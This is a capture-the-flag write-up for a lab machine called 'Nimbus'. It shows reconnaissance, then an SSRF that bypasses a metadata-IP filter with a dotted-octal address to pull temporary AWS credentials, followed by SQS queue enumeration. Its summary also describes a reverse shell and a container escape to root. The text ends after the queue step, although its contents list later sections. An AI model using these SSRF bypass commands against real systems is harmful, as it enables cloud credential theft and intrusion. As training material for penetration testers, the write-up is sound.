







## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Virtual Host (VHOST) Enumeration](#Virtual-Host-VHOST-Enumeration)
    - [Subdomain Enumeration](#Subdomain-Enumeration)
- [Initial Access](#Initial-Access)
    - [Internal Cloud API Exposure (LocalStack/Floci) and Credential Theft via Server-Side Request Forgery (SSRF)](#Internal-Cloud-API-Exposure-LocalStackFloci-and-Credential-Theft-via-Server-Side-Request-Forgery-SSRF)
        - [Code Injection via Job Scheduler](#Code-Injection-via-Job-Scheduler)
- [Enumeration (worker)](#Enumeration-worker)
- [user.txt](#usertxt)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [Privileged CodeBuild Container Escape via modprobe Usermode Helper](#Privileged-CodeBuild-Container-Escape-via-modprobe-Usermode-Helper)
        - [Enumeration](#Enumeration)
        - [Execution](#Execution)
- [root.txt](#roottxt)

## Summary

The box starts with a small external attack surface consisting of `SSH` and an `Nginx` web application on port `80/TCP`. The web application exposes an internal job scheduler that accepts external `YAML` job definitions by URL and provides a preview functionality for submitted jobs.

The preview endpoint blocks direct requests to the `AWS` instance metadata address `169.254.169.254`, but the filter can be bypassed by using an alternative `dotted-octal` representation of the same address. This allows access to the instance metadata service and exposes temporary credentials for the `nimbus-web-role`. With these credentials it is possible to authenticate against the internal `Floci` / `LocalStack` compatible cloud endpoint on `aws.nimbus.htb`.

The stolen credentials do not allow reading messages from the `SQS` queue, but they allow sending messages to the `nimbus-jobs` queue in the `us-east-1` region. The queue is consumed by a backend worker that parses the job body as `YAML` and executes the `script` field. By sending a crafted message to the queue it is possible to trigger a callback and then execute a staged `reverse shell` payload, resulting in access as the `worker` user inside a container. From this container the `user.txt` can be read.

Further enumeration from the worker container reveals access to the internal `Floci` endpoint and an `S3` bucket called `nimbus-dev-artifacts`, which contains the source code of the worker. The source confirms that messages from the `SQS` queue are processed with `yaml.load` and that the `script` field is passed directly to `subprocess.run`. The internal cloud endpoint also exposes `CodeBuild`, and a new `CodeBuild` project can be created with `privilegedMode` enabled.

For the `privilege escalation` to `root`, a privileged `CodeBuild` container is abused to escape to the host through the `modprobe` usermode helper mechanism. The build container exposes enough kernel-level control to overwrite `/proc/sys/kernel/modprobe` with a payload path mapped through the host overlay filesystem. Triggering execution of an invalid binary causes the kernel to invoke the configured helper as `root`, which writes an `SSH public key` to `/root/.ssh/authorized_keys`. After the build runs, `SSH` access as `root` becomes possible and the `root.txt` can be retrieved.

## Reconnaissance

### Port Scanning

We started with the initial `port scan` using `Nmap` to identify the externally reachable services. The result showed only port `22/TCP` and port `80/TCP` open, with the web service redirecting to `nimbus.htb`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.26.24
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-06-20 21:03 +0200
Nmap scan report for 10.129.26.24
Host is up (0.039s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 eb:ab:8f:be:99:02:0b:3e:c4:1c:83:b2:66:2f:17:13 (ECDSA)
|_  256 c1:69:ab:84:f3:88:8b:b3:8a:ae:e2:28:35:54:35:0b (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nimbus.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds
```

Since the web server redirected to `nimbus.htb`, we added the hostname to our `/etc/hosts` file before continuing with the web enumeration.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.26.24    nimbus.htb
```

### Enumeration of Port 80/TCP

Next we moved to the web application on port `80/TCP`. The page identified itself as an internal job scheduler and exposed a workflow to submit a job definition by URL.

- [http://nimbus.htb/](http://nimbus.htb/)

We used `WhatWeb` to identify the exposed technology stack and to confirm the application title.

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://nimbus.htb/
http://nimbus.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.26.24], Title[Nimbus — Internal Job Scheduler], nginx[1.24.0]
```

The landing page confirmed the `Nimbus` job scheduler application.



The job submission functionality accepted an external URL pointing to a job definition.



The example template showed that the expected format was `YAML`, which became relevant later when we interacted with the backend job queue directly.



### Virtual Host (VHOST) Enumeration

Since the web application depended on hostname routing, the next step was to enumerate additional `Virtual Host (VHOST)` entries below `nimbus.htb`.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.nimbus.htb" -u http://nimbus.htb/ --fs 178

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nimbus.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.nimbus.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

aws                     [Status: 403, Size: 305, Words: 28, Lines: 8, Duration: 33ms]
:: Progress: [151265/151265] :: Job [1/1] :: 1257 req/sec :: Duration: [0:00:58] :: Errors: 0 ::
```

The `aws` virtual host returned a different response and was therefore added to `/etc/hosts` as well.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.26.24    nimbus.htb
10.129.26.24    aws.nimbus.htb
```

### Subdomain Enumeration

The newly discovered `aws.nimbus.htb` virtual host was checked next. A direct browser request returned `403 Forbidden`, which suggested that it was meant to be accessed by internal components or by signed cloud-style API requests.

- [http://aws.nimbus.htb/](http://aws.nimbus.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://aws.nimbus.htb/
http://aws.nimbus.htb/ [403 Forbidden] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.26.24], nginx[1.24.0]
```

The browser view confirmed that the endpoint was reachable but not directly accessible without the expected request context.



## Initial Access

### Internal Cloud API Exposure (LocalStack/Floci) and Credential Theft via Server-Side Request Forgery (SSRF)

The job preview functionality fetched a user-controlled URL server-side and displayed the response. This immediately made `Server-Side Request Forgery (SSRF)` the most interesting attack surface, especially because the environment exposed an `aws` virtual host and appeared to imitate cloud services through `Floci` / `LocalStack`.

The first objective was to verify whether the preview endpoint could be used to reach internal resources such as the `AWS` metadata service.

- [https://hackingthe.cloud/aws/exploitation/ec2-metadata-ssrf/](https://hackingthe.cloud/aws/exploitation/ec2-metadata-ssrf/)
- [https://aquilax.ai/blog/ssrf-cloud-metadata-credential-theft](https://aquilax.ai/blog/ssrf-cloud-metadata-credential-theft)
- [https://github.com/labring/FastGPT/security/advisories/GHSA-jhqw-944x-xh94](https://github.com/labring/FastGPT/security/advisories/GHSA-jhqw-944x-xh94)

To understand the normal workflow first, we created a minimal `YAML` job definition and hosted it on our local web server.

At this point it became clear that the target was exposing an AWS-compatible environment through `Floci`. In cloud environments, workloads commonly obtain temporary credentials from the Instance Metadata Service (IMDS). Rather than embedding secrets directly into an application, permissions are assigned to an IAM role and retrieved dynamically when required.

Attempts to access the metadata service directly through the preview functionality were blocked by a server-side filter. Inspection of the behavior suggested that the protection relied on string matching rather than validating the resolved destination. Using a dotted-octal representation of the metadata address bypassed the restriction and allowed requests to be forwarded internally.

Enumeration of the metadata hierarchy first revealed the attached role name `nimbus-web-role`. Requesting the role-specific endpoint returned a temporary credential set consisting of an access key, secret key and session token. These credentials inherited the permissions assigned to the compromised workload and provided a foothold inside the internal cloud environment.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Nimbus/serve]
└─$ cat job.yaml 
name: test-job
schedule: "*/5 * * * *"
runtime: python3.11
```

The URL was submitted through the application.



The preview page parsed the remote `YAML` and displayed the job details, which confirmed that this endpoint could be used as a controlled fetch primitive.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Nimbus/serve]
└─$ python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.26.24 - - [20/Jun/2026 21:14:09] "GET /job.yaml HTTP/1.1" 200 -
```



After confirming the server-side fetch behavior, we tried to access the standard cloud metadata endpoint directly.

```shell
┌──(kali㉿kali)-[~]
└─$ curl -s -X POST http://nimbus.htb/jobs/preview -d "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/?a=test.yaml"
<!DOCTYPE html>
<html lang="en">
<head><meta charset="UTF-8"><title>Preview — Nimbus</title>
<style>
* { box-sizing: border-box; margin: 0; padding: 0; }
body { font-family: ui-monospace, Menlo, monospace; background: #1a1a1a; color: #d0d0d0; line-height: 1.5; padding: 2rem; max-width: 720px; margin: 0 auto; }
h1 { font-size: 1.4rem; margin-bottom: 0.25rem; color: #e6db74; }
.tag { color: #8b949e; font-size: 0.875rem; margin-bottom: 2rem; }
nav { border-top: 1px solid #333; border-bottom: 1px solid #333; padding: 0.75rem 0; margin-bottom: 2rem; }
nav a { color: #66d9ef; text-decoration: none; margin-right: 2rem; }
.panel { border: 1px solid #333; padding: 1rem; margin-bottom: 1rem; }
.err { border-left: 3px solid #f92672; padding-left: 1rem; color: #f92672; }
.ok { border-left: 3px solid #a6e22e; padding-left: 1rem; color: #a6e22e; margin-bottom: 1rem; padding: 0.5rem 1rem; font-size: 0.875rem; }
.meta { color: #666; font-size: 0.75rem; margin-bottom: 0.75rem; }
pre { background: #0d0d0d; padding: 0.75rem; overflow-x: auto; max-height: 400px; font-size: 0.8rem; color: #c0c0c0; border: 1px solid #222; }
h3 { font-size: 0.95rem; color: #a6e22e; margin: 1rem 0 0.5rem; }
a { color: #66d9ef; }
</style>
</head>
<body>
<h1>Preview</h1>
<div class="tag"><a href="/jobs">← submit another</a></div>
<div class="panel err"><strong>Error:</strong> Security policy: this URL targets an internal resource and has been blocked.</div>

</body>
</html>
```

The filter blocked the literal metadata IP address. To bypass that restriction, we converted `169.254.169.254` to `dotted-octal` notation. The application did not identify this representation as internal, while the backend HTTP client still resolved it to the metadata service.

```shell
┌──(kali㉿kali)-[~]
└─$ curl -s -X POST http://nimbus.htb/jobs/preview -d "url=http://0251.0376.0251.0376/latest/meta-data/iam/security-credentials/?a=test.yaml"
<!DOCTYPE html>
<html lang="en">
<head><meta charset="UTF-8"><title>Preview — Nimbus</title>
<style>
* { box-sizing: border-box; margin: 0; padding: 0; }
body { font-family: ui-monospace, Menlo, monospace; background: #1a1a1a; color: #d0d0d0; line-height: 1.5; padding: 2rem; max-width: 720px; margin: 0 auto; }
h1 { font-size: 1.4rem; margin-bottom: 0.25rem; color: #e6db74; }
.tag { color: #8b949e; font-size: 0.875rem; margin-bottom: 2rem; }
nav { border-top: 1px solid #333; border-bottom: 1px solid #333; padding: 0.75rem 0; margin-bottom: 2rem; }
nav a { color: #66d9ef; text-decoration: none; margin-right: 2rem; }
.panel { border: 1px solid #333; padding: 1rem; margin-bottom: 1rem; }
.err { border-left: 3px solid #f92672; padding-left: 1rem; color: #f92672; }
.ok { border-left: 3px solid #a6e22e; padding-left: 1rem; color: #a6e22e; margin-bottom: 1rem; padding: 0.5rem 1rem; font-size: 0.875rem; }
.meta { color: #666; font-size: 0.75rem; margin-bottom: 0.75rem; }
pre { background: #0d0d0d; padding: 0.75rem; overflow-x: auto; max-height: 400px; font-size: 0.8rem; color: #c0c0c0; border: 1px solid #222; }
h3 { font-size: 0.95rem; color: #a6e22e; margin: 1rem 0 0.5rem; }
a { color: #66d9ef; }
</style>
</head>
<body>
<h1>Preview</h1>
<div class="tag"><a href="/jobs">← submit another</a></div>
<div class="panel">
<div class="meta">Fetched: <code>http://0251.0376.0251.0376/latest/meta-data/iam/security-credentials/?a=test.yaml</code> · HTTP 200</div>
<h3>Raw response</h3><pre>nimbus-web-role</pre>
<h3>Parsed</h3><pre>nimbus-web-role</pre>
</div>

</body>
</html>
```

```shell
┌──(kali㉿kali)-[~]
└─$ curl -s -X POST http://nimbus.htb/jobs/preview -d "url=http://0251.0376.0251.0376/latest/meta-data/iam/security-credentials/nimbus-web-role?a=test.yaml"
<!DOCTYPE html>
<html lang="en">
<head><meta charset="UTF-8"><title>Preview — Nimbus</title>
<style>
* { box-sizing: border-box; margin: 0; padding: 0; }
body { font-family: ui-monospace, Menlo, monospace; background: #1a1a1a; color: #d0d0d0; line-height: 1.5; padding: 2rem; max-width: 720px; margin: 0 auto; }
h1 { font-size: 1.4rem; margin-bottom: 0.25rem; color: #e6db74; }
.tag { color: #8b949e; font-size: 0.875rem; margin-bottom: 2rem; }
nav { border-top: 1px solid #333; border-bottom: 1px solid #333; padding: 0.75rem 0; margin-bottom: 2rem; }
nav a { color: #66d9ef; text-decoration: none; margin-right: 2rem; }
.panel { border: 1px solid #333; padding: 1rem; margin-bottom: 1rem; }
.err { border-left: 3px solid #f92672; padding-left: 1rem; color: #f92672; }
.ok { border-left: 3px solid #a6e22e; padding-left: 1rem; color: #a6e22e; margin-bottom: 1rem; padding: 0.5rem 1rem; font-size: 0.875rem; }
.meta { color: #666; font-size: 0.75rem; margin-bottom: 0.75rem; }
pre { background: #0d0d0d; padding: 0.75rem; overflow-x: auto; max-height: 400px; font-size: 0.8rem; color: #c0c0c0; border: 1px solid #222; }
h3 { font-size: 0.95rem; color: #a6e22e; margin: 1rem 0 0.5rem; }
a { color: #66d9ef; }
</style>
</head>
<body>
<h1>Preview</h1>
<div class="tag"><a href="/jobs">← submit another</a></div>
<div class="panel">
<div class="meta">Fetched: <code>http://0251.0376.0251.0376/latest/meta-data/iam/security-credentials/nimbus-web-role?a=test.yaml</code> · HTTP 200</div>
<h3>Raw response</h3><pre>{
  &#34;Code&#34;: &#34;Success&#34;,
  &#34;LastUpdated&#34;: &#34;2026-06-20T19:25:51Z&#34;,
  &#34;Type&#34;: &#34;AWS-HMAC&#34;,
  &#34;AccessKeyId&#34;: &#34;ASIAQX4PG7L2K9M3N5R8&#34;,
  &#34;SecretAccessKey&#34;: &#34;bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs&#34;,
  &#34;Token&#34;: &#34;IQoJb3JpZ2luX2VjEHQaCXVzLWVhc3QtMSJGMEQCIBhV9zPmK3wQjL4nT8vR2xY7AoFqUk5HsP6BeMcW1aDgAiAR4tNoXzKp8VnJqL7mC3xY9FhWdQ5GBPmRkX2vT8jY6yqsAQiK//////////8BEAEaDDAwMDAwMDAwMDAwMCIMNZ5tQ7vEX2pKlHfqKtoBQwK5HmBcN4gXjVrUe1Pk9YsZ7DqWfThN3bMRoLYyJsKn8GpVxAcQ5VeWk2HiqXbF6CnXmM4PdYpL3rJzKqGtNvBfHcWyXa8jPzTn5LRMkV1QbWdAyKpGfHzNvU8TmEcL2qPdRhJsKgGn3VyXmFbBcNJ7QrHe5VpDxKfM&#34;,
  &#34;Expiration&#34;: &#34;2026-06-21T01:25:51Z&#34;
}</pre>
<h3>Parsed</h3><pre>{&#39;Code&#39;: &#39;Success&#39;, &#39;LastUpdated&#39;: &#39;2026-06-20T19:25:51Z&#39;, &#39;Type&#39;: &#39;AWS-HMAC&#39;, &#39;AccessKeyId&#39;: &#39;ASIAQX4PG7L2K9M3N5R8&#39;, &#39;SecretAccessKey&#39;: &#39;bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs&#39;, &#39;Token&#39;: &#39;IQoJb3JpZ2luX2VjEHQaCXVzLWVhc3QtMSJGMEQCIBhV9zPmK3wQjL4nT8vR2xY7AoFqUk5HsP6BeMcW1aDgAiAR4tNoXzKp8VnJqL7mC3xY9FhWdQ5GBPmRkX2vT8jY6yqsAQiK//////////8BEAEaDDAwMDAwMDAwMDAwMCIMNZ5tQ7vEX2pKlHfqKtoBQwK5HmBcN4gXjVrUe1Pk9YsZ7DqWfThN3bMRoLYyJsKn8GpVxAcQ5VeWk2HiqXbF6CnXmM4PdYpL3rJzKqGtNvBfHcWyXa8jPzTn5LRMkV1QbWdAyKpGfHzNvU8TmEcL2qPdRhJsKgGn3VyXmFbBcNJ7QrHe5VpDxKfM&#39;, &#39;Expiration&#39;: &#39;2026-06-21T01:25:51Z&#39;}</pre>
</div>

</body>
</html>
```

The role name `nimbus-web-role` was returned first. Querying the role-specific metadata path exposed temporary `AWS-HMAC` credentials.

| AWS_ACCESS_KEY_ID    | AWS_SECRET_ACCESS_KEY                    | AWS_SESSION_TOKEN                                                                                                                                                                                                                                                                                                                                                    |
| -------------------- | ---------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ASIAQX4PG7L2K9M3N5R8 | bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs | IQoJb3JpZ2luX2VjEHQaCXVzLWVhc3QtMSJGMEQCIBhV9zPmK3wQjL4nT8vR2xY7AoFqUk5HsP6BeMcW1aDgAiAR4tNoXzKp8VnJqL7mC3xY9FhWdQ5GBPmRkX2vT8jY6yqsAQiK//////////8BEAEaDDAwMDAwMDAwMDAwMCIMNZ5tQ7vEX2pKlHfqKtoBQwK5HmBcN4gXjVrUe1Pk9YsZ7DqWfThN3bMRoLYyJsKn8GpVxAcQ5VeWk2HiqXbF6CnXmM4PdYpL3rJzKqGtNvBfHcWyXa8jPzTn5LRMkV1QbWdAyKpGfHzNvU8TmEcL2qPdRhJsKgGn3VyXmFbBcNJ7QrHe5VpDxKfM |

The recovered credential set immediately stood out because the access key used the `ASIA` prefix rather than the more common `AKIA` prefix. This distinction is important because `ASIA` keys represent temporary credentials issued by AWS Security Token Service (STS) while `AKIA` keys are typically associated with long-lived IAM users. As a result, the recovered identity was expected to inherit the permissions assigned to the workload itself rather than a dedicated user account.

From an offensive perspective, temporary credentials are often just as valuable as static secrets. Although they eventually expire, they frequently provide direct access to internal cloud services that are otherwise inaccessible from outside the environment. In this case, the stolen credentials represented the permissions of the web application itself and therefore provided a trusted path into the internal cloud environment.

With the temporary credentials available, we configured the `AWS CLI` locally to interact with the internal cloud-compatible endpoint.

```shell
┌──(kali㉿kali)-[~]
└─$ aws configure
AWS Access Key ID [None]: ASIAQX4PG7L2K9M3N5R8
AWS Secret Access Key [None]: bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs
AWS Session Token [None]: IQoJb3JpZ2luX2VjEHQaCXVzLWVhc3QtMSJGMEQCIBhV9zPmK3wQjL4nT8vR2xY7AoFqUk5HsP6BeMcW1aDgAiAR4tNoXzKp8VnJqL7mC3xY9FhWdQ5GBPmRkX2vT8jY6yqsAQiK//////////8BEAEaDDAwMDAwMDAwMDAwMCIMNZ5tQ7vEX2pKlHfqKtoBQwK5HmBcN4gXjVrUe1Pk9YsZ7DqWfThN3bMRoLYyJsKn8GpVxAcQ5VeWk2HiqXbF6CnXmM4PdYpL3rJzKqGtNvBfHcWyXa8jPzTn5LRMkV1QbWdAyKpGfHzNvU8TmEcL2qPdRhJsKgGn3VyXmFbBcNJ7QrHe5VpDxKfM
Default region name [None]: us-west-2
Default output format [None]: json
```

The credentials were validated against the `aws.nimbus.htb` endpoint using `STS`. The returned identity confirmed access as the assumed role `nimbus-web-role`.

```shell
┌──(kali㉿kali)-[~]
└─$ aws sts get-caller-identity --endpoint-url http://aws.nimbus.htb
{
    "UserId": "AROAQX4PG7L2K9M3N5R8H:i-0a1b2c3d4e5f6789a",
    "Account": "847219365028",
    "Arn": "arn:aws:sts::847219365028:assumed-role/nimbus-web-role/i-0a1b2c3d4e5f6789a"
}
```

#### Code Injection via Job Scheduler

The next step was to determine which cloud services the stolen role could access. Since the web application was a job scheduler and the role name implied a web-facing component, `SQS` was the most likely backend transport between the web application and a worker.

- [https://docs.aws.amazon.com/boto3/latest/guide/sqs-example-sending-receiving-msgs.html](https://docs.aws.amazon.com/boto3/latest/guide/sqs-example-sending-receiving-msgs.html)
- [https://www.learnaws.org/2020/12/17/aws-sqs-boto3-guide/](https://www.learnaws.org/2020/12/17/aws-sqs-boto3-guide/)
- [https://medium.com/@Shamimw/the-basics-of-aws-sqs-cli-operations-and-example-code-for-producing-and-consuming-messages-0966a36aa123](https://medium.com/@Shamimw/the-basics-of-aws-sqs-cli-operations-and-example-code-for-producing-and-consuming-messages-0966a36aa123)
- [https://natworked.medium.com/creating-an-aws-sqs-queue-and-a-lambda-function-using-python-modifying-it-8f059fcf390a](https://natworked.medium.com/creating-an-aws-sqs-queue-and-a-lambda-function-using-python-modifying-it-8f059fcf390a)
- [https://rodelllemit.medium.com/aws-pentesting-abusing-overly-permissive-sqs-queue-156297205afe](https://rodelllemit.medium.com/aws-pentesting-abusing-overly-permissive-sqs-queue-156297205afe)
- [https://cloud.hacktricks.wiki/en/pentesting-cloud/aws-security/aws-privilege-escalation/aws-sqs-privesc/index.html#sqs](https://cloud.hacktricks.wiki/en/pentesting-cloud/aws-security/aws-privilege-escalation/aws-sqs-privesc/index.html#sqs)

The exposed credentials granted access to several AWS-compatible services hosted by `Floci`. Initial enumeration of the available `SQS` resources revealed a queue named `nimbus-jobs`. Although the assigned role lacked permission to retrieve messages from the queue, it was still permitted to publish new ones.

This distinction turned out to be crucial. A job scheduling platform typically consists of a frontend component responsible for submitting jobs and a backend worker responsible for processing them. Being able to enqueue arbitrary messages suggested that attacker-controlled data would eventually be consumed by an internal service.

Several test messages were submitted to determine how the backend processed queue content. Network callbacks confirmed that messages were executed by a worker process, effectively transforming the queue into a code execution primitive. Later source code review confirmed that incoming messages were parsed as YAML documents and that the `script` field was passed directly to `python3 -c`, resulting in arbitrary Python execution within the worker container.

We first listed the available `SQS` queues using the default configured region, but this did not return anything useful.

```shell
┌──(kali㉿kali)-[~]
└─$ aws sqs list-queues --endpoint-url http://aws.nimbus.htb
{
    "QueueUrls": []
}
```

After switching to `us-east-1`, the `nimbus-jobs` queue became visible.

```shell
┌──(kali㉿kali)-[~]
└─$ aws sqs list-queues --endpoint-url http://aws.nimbus.htb --region us-east-1
{
    "QueueUrls": [
        "http://floci:4566/847219365028/nimbus-jobs"
    ]
}
```

We retrieved the queue attributes to confirm the queue ARN, retention settings, and visibility timeout.

```shell
┌──(kali㉿kali)-[~]
└─$ aws sqs get-queue-attributes --queue-url "http://aws.nimbus.htb/847219365028/nimbus-jobs" --attribute-names All --endpoint-url http://aws.nimbus.htb --region us-east-1
{
    "Attributes": {
        "DelaySeconds": "0",
        "MessageRetentionPeriod": "345600",
        "MaximumMessageSize": "262144",
        "VisibilityTimeout": "30",
        "QueueArn": "arn:aws:sqs:us-east-1:847219365028:nimbus-jobs",
        "CreatedTimestamp": "1781982145",
        "LastModifiedTimestamp": "1781982145",
        "ApproximateNumberOfMessages": "0",
        "ApproximateNumberOfMessagesNotVisible": "0"
    }
}
```

